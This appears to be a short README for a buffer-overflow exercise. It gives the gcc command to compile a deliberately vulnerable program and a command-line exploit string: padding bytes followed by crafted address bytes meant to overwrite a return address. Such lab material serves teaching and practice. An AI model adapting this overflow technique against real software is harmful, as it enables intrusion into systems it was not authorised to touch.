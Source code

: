 ### Compile
```
gcc -g -o buffovf buffovf.c
```

### Exploit
```
./buffovf `echo -ne "AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEE\x38\x10\x60"` `echo -ne "\x80\x06\x40"`
```

### Note
The vulnerable binary for Linux x86_64 is provided along with the code and soln.

If compiled on a different platform or architecture, this exploit may need some tweeking.
However, the general format of the exploit will remain similar.
